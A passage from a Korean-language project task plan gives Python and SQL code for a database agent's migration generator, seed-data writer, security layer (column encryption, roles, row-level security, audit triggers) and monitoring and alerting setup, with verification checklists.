        self.version_manager = VersionManager()
        self.dependency_resolver = DependencyResolver()

    async def generate_migrations(
        self,
        schema: DatabaseSchema,
        db_type: str,
        existing_schema: Optional[DatabaseSchema] = None
    ) -> List[MigrationFile]:
        """마이그레이션 파일 생성"""

        if existing_schema is None:
            # 초기 마이그레이션
            return await self._generate_initial_migration(schema, db_type)
        else:
            # 스키마 변경 마이그레이션
            return await self._generate_change_migrations(
                existing_schema,
                schema,
                db_type
            )

    async def _generate_initial_migration(
        self,
        schema: DatabaseSchema,
        db_type: str
    ) -> List[MigrationFile]:
        """초기 마이그레이션 생성"""

        migrations = []

        # 버전 생성
        version = self.version_manager.generate_version()

        # 테이블 생성 스크립트
        up_script = await self._generate_create_tables_script(schema, db_type)
        down_script = await self._generate_drop_tables_script(schema, db_type)

        migration = MigrationFile(
            version=version,
            name=f"create_initial_schema",
            up_script=up_script,
            down_script=down_script,
            checksum=self._calculate_checksum(up_script),
            dependencies=[],
            metadata={
                'author': 'database_agent',
                'created_at': datetime.now().isoformat(),
                'description': 'Initial database schema'
            }
        )

        migrations.append(migration)

        # 인덱스 생성 마이그레이션 (별도)
        if schema.indexes:
            index_migration = await self._generate_index_migration(
                schema.indexes,
                db_type,
                version
            )
            migrations.append(index_migration)

        # 초기 데이터 마이그레이션
        if schema.seed_data:
            seed_migration = await self._generate_seed_migration(
                schema.seed_data,
                db_type,
                version
            )
            migrations.append(seed_migration)

        return migrations

    async def _generate_create_tables_script(
        self,
        schema: DatabaseSchema,
        db_type: str
    ) -> str:
        """테이블 생성 스크립트 생성"""

        if db_type == 'postgresql':
            return await self._generate_postgresql_create_tables(schema)
        elif db_type == 'mysql':
            return await self._generate_mysql_create_tables(schema)
        else:
            raise ValueError(f"Unsupported database type: {db_type}")

    async def _generate_postgresql_create_tables(
        self,
        schema: DatabaseSchema
    ) -> str:
        """PostgreSQL 테이블 생성 스크립트"""

        script_parts = []

        # Extensions
        script_parts.append("-- Enable required extensions")
        script_parts.append("CREATE EXTENSION IF NOT EXISTS \"uuid-ossp\";")
        script_parts.append("CREATE EXTENSION IF NOT EXISTS \"pgcrypto\";")
        script_parts.append("")

        # 테이블 생성 순서 결정 (의존성 고려)
        ordered_tables = self.dependency_resolver.order_tables(
            schema.tables,
            schema.relationships
        )

        for table in ordered_tables:
            # 테이블 생성
            create_statement = f"CREATE TABLE {table.name} ("

            column_definitions = []
            for column in table.columns:
                col_def = f"    {column.name} {column.data_type}"

                if not column.nullable:
                    col_def += " NOT NULL"

                if column.default:
                    col_def += f" DEFAULT {column.default}"

                if column.check_constraint:
                    col_def += f" CHECK ({column.check_constraint})"

                column_definitions.append(col_def)

            # Primary key 제약조건
            pk_columns = [col.name for col in table.columns if col.primary_key]
            if pk_columns:
                column_definitions.append(
                    f"    CONSTRAINT pk_{table.name} PRIMARY KEY ({', '.join(pk_columns)})"
                )

            # Unique 제약조건
            for column in table.columns:
                if column.unique and not column.primary_key:
                    column_definitions.append(
                        f"    CONSTRAINT uniq_{table.name}_{column.name} UNIQUE ({column.name})"
                    )

            create_statement += "\n" + ",\n".join(column_definitions) + "\n);"

            script_parts.append(f"-- Create table {table.name}")
            script_parts.append(create_statement)

            # 테이블 코멘트
            if table.comment:
                script_parts.append(
                    f"COMMENT ON TABLE {table.name} IS '{table.comment}';"
                )

            # 컬럼 코멘트
            for column in table.columns:
                if column.comment:
                    script_parts.append(
                        f"COMMENT ON COLUMN {table.name}.{column.name} IS '{column.comment}';"
                    )

            script_parts.append("")

        # Foreign key 제약조건 (모든 테이블 생성 후)
        script_parts.append("-- Add foreign key constraints")
        for table in schema.tables:
            for column in table.columns:
                if column.foreign_key:
                    ref_table, ref_column = column.foreign_key.split('(')
                    ref_column = ref_column.rstrip(')')

                    constraint_name = f"fk_{table.name}_{column.name}"
                    script_parts.append(
                        f"ALTER TABLE {table.name} ADD CONSTRAINT {constraint_name} "
                        f"FOREIGN KEY ({column.name}) REFERENCES {ref_table}({ref_column}) "
                        f"ON DELETE {column.on_delete or 'RESTRICT'} "
                        f"ON UPDATE {column.on_update or 'CASCADE'};"
                    )

        return "\n".join(script_parts)

    async def _generate_change_migrations(
        self,
        old_schema: DatabaseSchema,
        new_schema: DatabaseSchema,
        db_type: str
    ) -> List[MigrationFile]:
        """스키마 변경 마이그레이션 생성"""

        migrations = []
        changes = await self._detect_schema_changes(old_schema, new_schema)

        # 변경사항을 마이그레이션으로 그룹화
        grouped_changes = self._group_changes(changes)

        for group_name, group_changes in grouped_changes.items():
            version = self.version_manager.generate_version()

            up_script = await self._generate_change_script(
                group_changes,
                'up',
                db_type
            )
            down_script = await self._generate_change_script(
                group_changes,
                'down',
                db_type
            )

            migration = MigrationFile(
                version=version,
                name=f"{group_name}_{datetime.now().strftime('%Y%m%d')}",
                up_script=up_script,
                down_script=down_script,
                checksum=self._calculate_checksum(up_script),
                dependencies=self._get_migration_dependencies(group_changes),
                metadata={
                    'author': 'database_agent',
                    'created_at': datetime.now().isoformat(),
                    'changes': [change.description for change in group_changes]
                }
            )

            migrations.append(migration)

        return migrations

    async def _detect_schema_changes(
        self,
        old_schema: DatabaseSchema,
        new_schema: DatabaseSchema
    ) -> List[SchemaChange]:
        """스키마 변경사항 감지"""

        changes = []

        # 테이블 변경 감지
        old_tables = {t.name: t for t in old_schema.tables}
        new_tables = {t.name: t for t in new_schema.tables}

        # 새로운 테이블
        for table_name, table in new_tables.items():
            if table_name not in old_tables:
                changes.append(SchemaChange(
                    type='create_table',
                    object_type='table',
                    object_name=table_name,
                    details=table,
                    description=f"Create table {table_name}"
                ))

        # 삭제된 테이블
        for table_name, table in old_tables.items():
            if table_name not in new_tables:
                changes.append(SchemaChange(
                    type='drop_table',
                    object_type='table',
                    object_name=table_name,
                    details=table,
                    description=f"Drop table {table_name}"
                ))

        # 변경된 테이블
        for table_name in set(old_tables.keys()) & set(new_tables.keys()):
            old_table = old_tables[table_name]
            new_table = new_tables[table_name]

            table_changes = await self._detect_table_changes(
                old_table,
                new_table
            )
            changes.extend(table_changes)

        return changes

    def _calculate_checksum(self, content: str) -> str:
        """체크섬 계산"""
        return hashlib.sha256(content.encode()).hexdigest()

class SeedDataGenerator:
    """시드 데이터 생성기"""

    async def generate_seed_data(
        self,
        schema: DatabaseSchema,
        requirements: ProjectRequirements,
        db_type: str
    ) -> SeedDataScript:
        """시드 데이터 스크립트 생성"""

        seed_script = SeedDataScript(
            tables=[],
            execution_order=[],
            script=""
        )

        # 필수 데이터 식별
        required_data = await self._identify_required_data(
            schema,
            requirements
        )

        # 테스트 데이터 생성
        test_data = await self._generate_test_data(
            schema,
            requirements.test_data_volume
        )

        # 실행 순서 결정
        execution_order = self._determine_execution_order(
            schema.tables,
            schema.relationships
        )

        # 스크립트 생성
        if db_type == 'postgresql':
            script = await self._generate_postgresql_seed_script(
                required_data,
                test_data,
                execution_order
            )
        elif db_type == 'mysql':
            script = await self._generate_mysql_seed_script(
                required_data,
                test_data,
                execution_order
            )
        else:
            script = await self._generate_generic_seed_script(
                required_data,
                test_data,
                execution_order
            )

        seed_script.script = script
        seed_script.execution_order = execution_order

        return seed_script

    async def _generate_postgresql_seed_script(
        self,
        required_data: Dict[str, List[Dict]],
        test_data: Dict[str, List[Dict]],
        execution_order: List[str]
    ) -> str:
        """PostgreSQL 시드 데이터 스크립트"""

        script_parts = []

        script_parts.append("-- Seed Data Script")
        script_parts.append("-- Generated by Database Agent")
        script_parts.append(f"-- Date: {datetime.now().isoformat()}")
        script_parts.append("")

        script_parts.append("BEGIN;")
        script_parts.append("")

        # 필수 데이터 삽입
        script_parts.append("-- Required Data")
        for table in execution_order:
            if table in required_data:
                script_parts.append(f"-- Insert required data for {table}")

                for record in required_data[table]:
                    columns = list(record.keys())
                    values = [self._format_value(v) for v in record.values()]

                    insert_stmt = f"INSERT INTO {table} ({', '.join(columns)}) VALUES ({', '.join(values)});"
                    script_parts.append(insert_stmt)

                script_parts.append("")

        # 테스트 데이터 삽입
        if test_data:
            script_parts.append("-- Test Data")
            for table in execution_order:
                if table in test_data:
                    script_parts.append(f"-- Insert test data for {table}")

                    # 배치 삽입 사용
                    if len(test_data[table]) > 10:
                        script_parts.append(f"INSERT INTO {table} ({', '.join(test_data[table][0].keys())}) VALUES")

                        value_rows = []
                        for record in test_data[table]:
                            values = [self._format_value(v) for v in record.values()]
                            value_rows.append(f"    ({', '.join(values)})")

                        script_parts.append(",\n".join(value_rows) + ";")
                    else:
                        for record in test_data[table]:
                            columns = list(record.keys())
                            values = [self._format_value(v) for v in record.values()]

                            insert_stmt = f"INSERT INTO {table} ({', '.join(columns)}) VALUES ({', '.join(values)});"
                            script_parts.append(insert_stmt)

                    script_parts.append("")

        script_parts.append("COMMIT;")

        return "\n".join(script_parts)

    def _format_value(self, value: Any) -> str:
        """값 포맷팅"""

        if value is None:
            return 'NULL'
        elif isinstance(value, str):
            return f"'{value.replace('\'', '\'\'')}'"  # Escape single quotes
        elif isinstance(value, bool):
            return 'TRUE' if value else 'FALSE'
        elif isinstance(value, (int, float)):
            return str(value)
        elif isinstance(value, datetime):
            return f"'{value.isoformat()}'"
        elif isinstance(value, list):
            return f"ARRAY{value}"
        elif isinstance(value, dict):
            return f"'{json.dumps(value)}'::jsonb"
        else:
            return f"'{str(value)}'"
```

**검증 기준**:

- [ ] 자동 마이그레이션 생성
- [ ] 스키마 변경 감지
- [ ] 롤백 스크립트 생성
- [ ] 시드 데이터 관리

#### SubTask 4.17.4: 데이터베이스 보안 구현

**담당자**: 보안 엔지니어  
**예상 소요시간**: 12시간

**작업 내용**:

```python
# backend/src/agents/implementations/database_security.py
from typing import Dict, List, Optional, Any
from dataclasses import dataclass
from enum import Enum
import secrets

@dataclass
class DatabaseSecurityConfiguration:
    encryption: EncryptionConfiguration
    access_control: AccessControlConfiguration
    audit_logging: AuditConfiguration
    data_masking: DataMaskingConfiguration
    security_policies: List[SecurityPolicy]
    compliance: ComplianceConfiguration

class DatabaseSecurityImplementer:
    """데이터베이스 보안 구현"""

    def __init__(self):
        self.encryption_manager = EncryptionManager()
        self.access_controller = AccessController()
        self.audit_logger = AuditLogger()
        self.data_masker = DataMasker()
        self.compliance_checker = ComplianceChecker()

    async def implement_security(
        self,
        schema: DatabaseSchema,
        db_type: str,
        compliance_requirements: Optional[ComplianceRequirements] = None
    ) -> DatabaseSecurityConfiguration:
        """데이터베이스 보안 구현"""

        # 1. 암호화 설정
        encryption = await self._setup_encryption(
            schema,
            db_type,
            compliance_requirements
        )

        # 2. 접근 제어 설정
        access_control = await self._setup_access_control(
            schema,
            db_type
        )

        # 3. 감사 로깅 설정
        audit_logging = await self._setup_audit_logging(
            schema,
            db_type,
            compliance_requirements
        )

        # 4. 데이터 마스킹 설정
        data_masking = await self._setup_data_masking(
            schema,
            compliance_requirements
        )

        # 5. 보안 정책 생성
        security_policies = await self._create_security_policies(
            schema,
            db_type
        )

        # 6. 컴플라이언스 설정
        compliance = await self._setup_compliance(
            compliance_requirements,
            db_type
        )

        return DatabaseSecurityConfiguration(
            encryption=encryption,
            access_control=access_control,
            audit_logging=audit_logging,
            data_masking=data_masking,
            security_policies=security_policies,
            compliance=compliance
        )

    async def _setup_encryption(
        self,
        schema: DatabaseSchema,
        db_type: str,
        compliance_requirements: Optional[ComplianceRequirements]
    ) -> EncryptionConfiguration:
        """암호화 설정"""

        encryption_config = EncryptionConfiguration()

        # 전송 중 암호화 (TLS)
        encryption_config.transport_encryption = TransportEncryption(
            enabled=True,
            tls_version="1.3",
            cipher_suites=self._get_secure_cipher_suites(),
            certificate_validation=True
        )

        # 저장 시 암호화
        if db_type == 'postgresql':
            encryption_config.at_rest_encryption = await self._setup_postgresql_encryption(
                schema,
                compliance_requirements
            )
        elif db_type == 'mysql':
            encryption_config.at_rest_encryption = await self._setup_mysql_encryption(
                schema,
                compliance_requirements
            )

        # 컬럼 수준 암호화
        sensitive_columns = await self._identify_sensitive_columns(
            schema,
            compliance_requirements
        )

        encryption_config.column_encryption = await self._setup_column_encryption(
            sensitive_columns,
            db_type
        )

        return encryption_config

    async def _setup_postgresql_encryption(
        self,
        schema: DatabaseSchema,
        compliance_requirements: Optional[ComplianceRequirements]
    ) -> AtRestEncryption:
        """PostgreSQL 암호화 설정"""

        scripts = []

        # 1. pgcrypto extension
        scripts.append("CREATE EXTENSION IF NOT EXISTS pgcrypto;")

        # 2. 암호화 키 테이블
        scripts.append("""
CREATE TABLE IF NOT EXISTS encryption_keys (
    id UUID PRIMARY KEY DEFAULT gen_random_uuid(),
    key_name VARCHAR(255) UNIQUE NOT NULL,
    encrypted_key TEXT NOT NULL,
    key_version INTEGER NOT NULL DEFAULT 1,
    algorithm VARCHAR(50) NOT NULL DEFAULT 'AES-256-GCM',
    created_at TIMESTAMP NOT NULL DEFAULT CURRENT_TIMESTAMP,
    rotated_at TIMESTAMP,
    expires_at TIMESTAMP,
    is_active BOOLEAN NOT NULL DEFAULT TRUE
);

-- 암호화 키 접근 제한
REVOKE ALL ON encryption_keys FROM PUBLIC;
GRANT SELECT ON encryption_keys TO app_role;
""")

        # 3. 암호화 함수 생성
        scripts.append("""
-- 암호화 함수
CREATE OR REPLACE FUNCTION encrypt_sensitive_data(
    p_data TEXT,
    p_key_name VARCHAR(255)
) RETURNS TEXT AS $$
DECLARE
    v_key TEXT;
    v_encrypted TEXT;
BEGIN
    -- 활성 키 조회
    SELECT encrypted_key INTO v_key
    FROM encryption_keys
    WHERE key_name = p_key_name
      AND is_active = TRUE
    ORDER BY key_version DESC
    LIMIT 1;

    IF v_key IS NULL THEN
        RAISE EXCEPTION 'Encryption key not found: %', p_key_name;
    END IF;

    -- 데이터 암호화
    v_encrypted := pgp_sym_encrypt(
        p_data,
        v_key,
        'cipher-algo=aes256'
    );

    RETURN v_encrypted;
END;
$$ LANGUAGE plpgsql SECURITY DEFINER;

-- 복호화 함수
CREATE OR REPLACE FUNCTION decrypt_sensitive_data(
    p_encrypted_data TEXT,
    p_key_name VARCHAR(255)
) RETURNS TEXT AS $$
DECLARE
    v_key TEXT;
    v_decrypted TEXT;
BEGIN
    -- 키 조회 (모든 버전 시도)
    FOR v_key IN
        SELECT encrypted_key
        FROM encryption_keys
        WHERE key_name = p_key_name
        ORDER BY key_version DESC
    LOOP
        BEGIN
            v_decrypted := pgp_sym_decrypt(
                p_encrypted_data::bytea,
                v_key
            );
            RETURN v_decrypted;
        EXCEPTION
            WHEN OTHERS THEN
                -- 다음 키 버전 시도
                CONTINUE;
        END;
    END LOOP;

    RAISE EXCEPTION 'Failed to decrypt data with key: %', p_key_name;
END;
$$ LANGUAGE plpgsql SECURITY DEFINER;
""")

        # 4. 투명한 암호화를 위한 트리거
        for table in schema.tables:
            for column in table.columns:
                if column.sensitive:
                    scripts.append(f"""
-- {table.name}.{column.name} 암호화 트리거
CREATE OR REPLACE FUNCTION encrypt_{table.name}_{column.name}()
RETURNS TRIGGER AS $$
BEGIN
    IF NEW.{column.name} IS NOT NULL THEN
        NEW.{column.name} := encrypt_sensitive_data(
            NEW.{column.name}::TEXT,
            '{table.name}_{column.name}_key'
        );
    END IF;
    RETURN NEW;
END;
$$ LANGUAGE plpgsql;

CREATE TRIGGER trg_encrypt_{table.name}_{column.name}
BEFORE INSERT OR UPDATE OF {column.name} ON {table.name}
FOR EACH ROW
EXECUTE FUNCTION encrypt_{table.name}_{column.name}();
""")

        return AtRestEncryption(
            enabled=True,
            method="column_level",
            algorithm="AES-256-GCM",
            key_management="database_managed",
            scripts=scripts
        )

    async def _setup_access_control(
        self,
        schema: DatabaseSchema,
        db_type: str
    ) -> AccessControlConfiguration:
        """접근 제어 설정"""

        access_control = AccessControlConfiguration()

        # 역할 기반 접근 제어 (RBAC)
        roles = await self._define_database_roles(schema)

        # 권한 매트릭스 생성
        permissions = await self._create_permission_matrix(
            roles,
            schema.tables
        )

        # 행 수준 보안 (RLS)
        row_level_security = await self._setup_row_level_security(
            schema,
            db_type
        )

        # 접근 제어 스크립트 생성
        if db_type == 'postgresql':
            scripts = await self._generate_postgresql_access_control(
                roles,
                permissions,
                row_level_security
            )
        elif db_type == 'mysql':
            scripts = await self._generate_mysql_access_control(
                roles,
                permissions
            )

        access_control.roles = roles
        access_control.permissions = permissions
        access_control.row_level_security = row_level_security
        access_control.scripts = scripts

        return access_control

    async def _define_database_roles(
        self,
        schema: DatabaseSchema
    ) -> List[DatabaseRole]:
        """데이터베이스 역할 정의"""

        roles = []

        # 기본 역할
        roles.extend([
            DatabaseRole(
                name="db_admin",
                description="Database administrator with full privileges",
                privileges=["ALL"],
                inherit=True
            ),
            DatabaseRole(
                name="app_role",
                description="Application service account",
                privileges=["SELECT", "INSERT", "UPDATE", "DELETE"],
                inherit=False
            ),
            DatabaseRole(
                name="readonly_role",
                description="Read-only access for reporting",
                privileges=["SELECT"],
                inherit=False
            ),
            DatabaseRole(
                name="backup_role",
                description="Backup service account",
                privileges=["SELECT", "REPLICATION"],
                inherit=False
            )
        ])

        # 테이블별 특수 역할
        for table in schema.tables:
            if table.requires_special_access:
                roles.append(DatabaseRole(
                    name=f"{table.name}_admin",
                    description=f"Administrator for {table.name} table",
                    privileges=["ALL"],
                    inherit=False,
                    tables=[table.name]
                ))

        return roles

    async def _setup_row_level_security(
        self,
        schema: DatabaseSchema,
        db_type: str
    ) -> RowLevelSecurity:
        """행 수준 보안 설정"""

        if db_type != 'postgresql':
            # PostgreSQL만 네이티브 RLS 지원
            return RowLevelSecurity(enabled=False)

        rls_config = RowLevelSecurity(enabled=True)
        policies = []

        for table in schema.tables:
            if table.requires_row_security:
                # 멀티테넌시 정책
                if table.has_column('tenant_id'):
                    policies.append(f"""
-- Enable RLS for {table.name}
ALTER TABLE {table.name} ENABLE ROW LEVEL SECURITY;

-- Tenant isolation policy
CREATE POLICY tenant_isolation_policy ON {table.name}
    FOR ALL
    TO app_role
    USING (tenant_id = current_setting('app.current_tenant_id')::UUID);

-- Admin bypass policy
CREATE POLICY admin_bypass_policy ON {table.name}
    FOR ALL
    TO db_admin
    USING (true);
""")

                # 사용자 소유권 정책
                if table.has_column('user_id'):
                    policies.append(f"""
-- User ownership policy
CREATE POLICY user_ownership_policy ON {table.name}
    FOR ALL
    TO app_role
    USING (
        user_id = current_setting('app.current_user_id')::UUID
        OR
        EXISTS (
            SELECT 1 FROM user_permissions
            WHERE user_id = current_setting('app.current_user_id')::UUID
              AND resource_type = '{table.name}'
              AND resource_id = {table.name}.id
              AND permission IN ('read', 'write', 'admin')
        )
    );
""")

        rls_config.policies = policies
        return rls_config

    async def _setup_audit_logging(
        self,
        schema: DatabaseSchema,
        db_type: str,
        compliance_requirements: Optional[ComplianceRequirements]
    ) -> AuditConfiguration:
        """감사 로깅 설정"""

        audit_config = AuditConfiguration()

        # 감사 대상 테이블 식별
        audit_tables = await self._identify_audit_tables(
            schema,
            compliance_requirements
        )

        # 감사 로그 스키마
        audit_schema = await self._create_audit_schema()

        # 감사 트리거 생성
        if db_type == 'postgresql':
            audit_triggers = await self._generate_postgresql_audit_triggers(
                audit_tables
            )
        elif db_type == 'mysql':
            audit_triggers = await self._generate_mysql_audit_triggers(
                audit_tables
            )

        audit_config.enabled = True
        audit_config.audit_tables = audit_tables
        audit_config.audit_schema = audit_schema
        audit_config.triggers = audit_triggers
        audit_config.retention_days = compliance_requirements.audit_retention_days if compliance_requirements else 365

        return audit_config

    async def _generate_postgresql_audit_triggers(
        self,
        audit_tables: List[str]
    ) -> List[str]:
        """PostgreSQL 감사 트리거 생성"""

        triggers = []

        # 감사 로그 테이블
        triggers.append("""
-- Audit log table
CREATE TABLE IF NOT EXISTS audit_log (
    id BIGSERIAL PRIMARY KEY,
    table_name VARCHAR(255) NOT NULL,
    action VARCHAR(10) NOT NULL CHECK (action IN ('INSERT', 'UPDATE', 'DELETE')),
    user_id UUID,
    username VARCHAR(255),
    timestamp TIMESTAMP NOT NULL DEFAULT CURRENT_TIMESTAMP,
    client_ip INET,
    session_id VARCHAR(255),
    row_id VARCHAR(255),
    old_values JSONB,
    new_values JSONB,
    changed_fields TEXT[],
    query TEXT,
    application_name VARCHAR(255)
);

-- Indexes for audit log
CREATE INDEX idx_audit_log_table_timestamp ON audit_log(table_name, timestamp DESC);
CREATE INDEX idx_audit_log_user_timestamp ON audit_log(user_id, timestamp DESC);
CREATE INDEX idx_audit_log_timestamp ON audit_log(timestamp DESC);

-- Partitioning by month
CREATE TABLE audit_log_y2024m01 PARTITION OF audit_log
FOR VALUES FROM ('2024-01-01') TO ('2024-02-01');
""")

        # 감사 함수
        triggers.append("""
-- Generic audit function
CREATE OR REPLACE FUNCTION audit_trigger_function()
RETURNS TRIGGER AS $$
DECLARE
    v_old_values JSONB;
    v_new_values JSONB;
    v_changed_fields TEXT[];
BEGIN
    -- Get current user info
    IF TG_OP = 'DELETE' THEN
        v_old_values := to_jsonb(OLD);
        v_new_values := NULL;
        v_changed_fields := ARRAY(SELECT jsonb_object_keys(v_old_values));
    ELSIF TG_OP = 'UPDATE' THEN
        v_old_values := to_jsonb(OLD);
        v_new_values := to_jsonb(NEW);

        -- Identify changed fields
        SELECT array_agg(key) INTO v_changed_fields
        FROM jsonb_each(v_old_values) o
        FULL OUTER JOIN jsonb_each(v_new_values) n USING (key)
        WHERE o.value IS DISTINCT FROM n.value;
    ELSIF TG_OP = 'INSERT' THEN
        v_old_values := NULL;
        v_new_values := to_jsonb(NEW);
        v_changed_fields := ARRAY(SELECT jsonb_object_keys(v_new_values));
    END IF;

    -- Insert audit record
    INSERT INTO audit_log (
        table_name,
        action,
        user_id,
        username,
        client_ip,
        session_id,
        row_id,
        old_values,
        new_values,
        changed_fields,
        query,
        application_name
    ) VALUES (
        TG_TABLE_NAME,
        TG_OP,
        current_setting('app.current_user_id', TRUE)::UUID,
        current_setting('app.current_username', TRUE),
        inet_client_addr(),
        current_setting('app.session_id', TRUE),
        CASE
            WHEN TG_OP = 'DELETE' THEN OLD.id::TEXT
            ELSE NEW.id::TEXT
        END,
        v_old_values,
        v_new_values,
        v_changed_fields,
        current_query(),
        current_setting('application_name', TRUE)
    );

    -- Return appropriate value
    IF TG_OP = 'DELETE' THEN
        RETURN OLD;
    ELSE
        RETURN NEW;
    END IF;
END;
$$ LANGUAGE plpgsql SECURITY DEFINER;
""")

        # 각 테이블에 감사 트리거 생성
        for table in audit_tables:
            triggers.append(f"""
-- Audit trigger for {table}
DROP TRIGGER IF EXISTS audit_trigger_{table} ON {table};
CREATE TRIGGER audit_trigger_{table}
AFTER INSERT OR UPDATE OR DELETE ON {table}
FOR EACH ROW
EXECUTE FUNCTION audit_trigger_function();
""")

        return triggers
```

**검증 기준**:

- [ ] 암호화 구현 (전송/저장)
- [ ] 접근 제어 (RBAC/RLS)
- [ ] 감사 로깅 시스템
- [ ] 컴플라이언스 지원

---

### Task 4.18: Database Agent 고급 기능

#### SubTask 4.18.1: 성능 모니터링 및 튜닝

**담당자**: 데이터베이스 성능 전문가  
**예상 소요시간**: 12시간

**작업 내용**:

```python
# backend/src/agents/implementations/database_monitoring.py
from typing import Dict, List, Optional, Any, Tuple
from dataclasses import dataclass
from datetime import datetime, timedelta

@dataclass
class MonitoringConfiguration:
    metrics: List[MetricDefinition]
    alerts: List[AlertRule]
    dashboards: List[DashboardConfig]
    collection_interval: int  # seconds
    retention_period: int  # days
    monitoring_scripts: Dict[str, str]

@dataclass
class PerformanceReport:
    timestamp: datetime
    database_health: DatabaseHealth
    performance_metrics: Dict[str, float]
    slow_queries: List[SlowQuery]
    index_usage: Dict[str, IndexUsageStats]
    recommendations: List[PerformanceRecommendation]

class DatabaseMonitoringSetup:
    """데이터베이스 모니터링 설정"""

    def __init__(self):
        self.metric_collector = MetricCollector()
        self.alert_manager = AlertManager()
        self.dashboard_builder = DashboardBuilder()
        self.performance_analyzer = PerformanceAnalyzer()

    async def setup_monitoring(
        self,
        db_type: str,
        schema: DatabaseSchema,
        expected_load: LoadExpectations
    ) -> MonitoringConfiguration:
        """모니터링 설정"""

        # 1. 메트릭 정의
        metrics = await self._define_metrics(db_type, schema)

        # 2. 알림 규칙 설정
        alerts = await self._configure_alerts(metrics, expected_load)

        # 3. 대시보드 구성
        dashboards = await self._create_dashboards(metrics, db_type)

        # 4. 모니터링 스크립트 생성
        scripts = await self._generate_monitoring_scripts(
            db_type,
            metrics,
            schema
        )

        return MonitoringConfiguration(
            metrics=metrics,
            alerts=alerts,
            dashboards=dashboards,
            collection_interval=30,  # 30초
            retention_period=90,     # 90일
            monitoring_scripts=scripts
        )

    async def _define_metrics(
        self,
        db_type: str,
        schema: DatabaseSchema
    ) -> List[MetricDefinition]:
        """메트릭 정의"""

        metrics = []

        # 기본 메트릭
        base_metrics = [
            MetricDefinition(
                name="connections_active",
                description="Number of active connections",
                type="gauge",
                unit="count",
                query=self._get_connection_query(db_type)
            ),
            MetricDefinition(
                name="transactions_per_second",
                description="Transaction rate",
                type="counter",
                unit="tps",
                query=self._get_tps_query(db_type)
            ),
            MetricDefinition(
                name="query_latency_p95",
                description="95th percentile query latency",
                type="histogram",
                unit="ms",
                query=self._get_latency_query(db_type)
            ),
            MetricDefinition(
                name="cache_hit_ratio",
                description="Buffer cache hit ratio",
                type="gauge",
                unit="percentage",
                query=self._get_cache_hit_query(db_type)
            ),
            MetricDefinition(
                name="disk_io_utilization",
                description="Disk I/O utilization",
                type="gauge",
                unit="percentage",
                query=self._get_disk_io_query(db_type)
            ),
            MetricDefinition(
                name="replication_lag",
                description="Replication lag in seconds",
                type="gauge",
                unit="seconds",
                query=self._get_replication_lag_query(db_type)
            )
        ]

        metrics.extend(base_metrics)

        # 테이블별 메트릭
        for table in schema.tables:
            if table.monitor_growth:
                metrics.append(MetricDefinition(
                    name=f"table_size_{table.name}",
                    description=f"Size of {table.name} table",
                    type="gauge",
                    unit="bytes",
                    query=self._get_table_size_query(db_type, table.name)
                ))

                metrics.append(MetricDefinition(
                    name=f"table_rows_{table.name}",
                    description=f"Number of rows in {table.name}",
                    type="gauge",
                    unit="count",
                    query=self._get_row_count_query(db_type, table.name)
                ))

        return metrics

    def _get_connection_query(self, db_type: str) -> str:
        """접속 수 조회 쿼리"""

        if db_type == 'postgresql':
            return """
                SELECT count(*) as value
                FROM pg_stat_activity
                WHERE state = 'active'
                  AND pid != pg_backend_pid()
            """
        elif db_type == 'mysql':
            return """
                SELECT COUNT(*) as value
                FROM information_schema.processlist
                WHERE command != 'Sleep'
            """
        else:
            return ""

    async def _configure_alerts(
        self,
        metrics: List[MetricDefinition],
        expected_load: LoadExpectations
    ) -> List[AlertRule]:
        """알림 규칙 설정"""

        alerts = []

        # 연결 수 알림
        alerts.append(AlertRule(
            name="high_connection_count",
            metric="connections_active",
            condition="greater_than",
            threshold=expected_load.max_connections * 0.8,
            duration="5m",
            severity="warning",
            message="Database connection count is high: {value} connections"
        ))

        alerts.append(AlertRule(
            name="critical_connection_count",
            metric="connections_active",
            condition="greater_than",
            threshold=expected_load.max_connections * 0.95,
            duration="1m",
            severity="critical",
            message="Database connection count critical: {value} connections"
        ))

        # 성능 알림
        alerts.append(AlertRule(
            name="slow_queries",
            metric="query_latency_p95",
            condition="greater_than",
            threshold=1000,  # 1초
            duration="5m",
            severity="warning",
            message="Query latency is high: {value}ms"
        ))

        # 캐시 히트율 알림
        alerts.append(AlertRule(
            name="low_cache_hit_ratio",
            metric="cache_hit_ratio",
            condition="less_than",
            threshold=90,
            duration="10m",
            severity="warning",
            message="Cache hit ratio is low: {value}%"
        ))

        # 복제 지연 알림
        alerts.append(AlertRule(
            name="replication_lag",
            metric="replication_lag",
            condition="greater_than",
            threshold=5,
            duration="5m",
            severity="critical",
            message="Replication lag detected: {value} seconds"
        ))

        # 디스크 사용량 알림
        alerts.append(AlertRule(
            name="high_disk_usage",
            metric="disk_usage_percentage",
            condition="greater_than",
            threshold=80,
            duration="5m",
            severity="warning",
            message="Disk usage is high: {value}%"
        ))

        return alerts

    async def _generate_monitoring_scripts(
        self,
        db_type: str,
        metrics: List[MetricDefinition],
        schema: DatabaseSchema
    ) -> Dict[str, str]:
        """모니터링 스크립트 생성"""

        scripts = {}

        if db_type == 'postgresql':
            scripts['setup'] = await self._generate_pg_monitoring_setup()
            scripts['collector'] = await self._generate_pg_metric_collector(metrics)
            scripts['slow_query'] = await self._generate_pg_slow_query_monitor()
            scripts['index_usage'] = await self._generate_pg_index_usage_monitor()
        elif db_type == 'mysql':
            scripts['setup'] = await self._generate_mysql_monitoring_setup()
            scripts['collector'] = await self._generate_mysql_metric_collector(metrics)
            scripts['slow_query'] = await self._generate_mysql_slow_query_monitor()

        return scripts

    async def _generate_pg_monitoring_setup(self) -> str:
        """PostgreSQL 모니터링 설정 스크립트"""

        return """
-- Enable statistics collection
ALTER SYSTEM SET track_activities = on;
ALTER SYSTEM SET track_counts = on;
ALTER SYSTEM SET track_functions = 'all';
ALTER SYSTEM SET track_io_timing = on;

-- Enable query statistics
CREATE EXTENSION IF NOT EXISTS pg_stat_statements;
ALTER SYSTEM SET shared_preload_libraries = 'pg_stat_statements';
ALTER SYSTEM SET pg_stat_statements.track = 'all';
ALTER SYSTEM SET pg_stat_statements.max = 10000;

-- Log slow queries
ALTER SYSTEM SET log_min_duration_statement = 1000; -- 1 second
ALTER SYSTEM SET log_statement = 'mod';
ALTER SYSTEM SET log_duration = on;

-- Monitoring schema
CREATE SCHEMA IF NOT EXISTS monitoring;

-- Metrics collection table
CREATE TABLE IF NOT EXISTS monitoring.metrics (
    id BIGSERIAL PRIMARY KEY,
    metric_name VARCHAR(255) NOT NULL,
    metric_value NUMERIC,
    metric_tags JSONB,
    collected_at TIMESTAMP NOT NULL DEFAULT CURRENT_TIMESTAMP
);

-- Partition by day
